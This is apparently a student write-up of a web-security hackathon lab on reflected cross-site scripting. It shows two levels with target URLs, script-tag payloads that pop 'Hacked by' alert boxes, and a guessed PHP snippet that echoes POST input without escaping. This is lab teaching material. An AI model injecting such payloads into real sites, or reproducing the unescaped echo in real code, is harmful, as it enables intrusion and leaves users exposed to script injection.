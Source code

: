 URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss//level1/echo.php](http://waph-hackathon.eastus.cloudapp.azure.com/xss/level1/echo.php)
Leveraging XSS vulnerabilities typically entails appending a malicious script at the end of the URL.

```
input=<script>alert('Level 1 - Hacked by Vikhyath Reddy Bheemreddy')</script>
```

![Level 1 ](images/level1.png)

Level 2

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php](URL : http://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php)

This URL is associated with an HTML form rather than engaging with user inputs or path variables within the HTTP request. Through this form, it becomes possible to directly insert attacking scripts. This approach facilitates the injection of malicious code into the web application, thereby enabling the examination of XSS vulnerabilities.

```
input=<script>alert('Level 2 - Hacked by Vikhyath Reddy Bheemreddy')</script>
```
Possible Code:
```
	if(!isset($_POST['input']))
	{
		die("{\"error\": \"Please provide 'input' field in an HTTP POST Request\"}");
	}
	echo $_POST['input'];
```
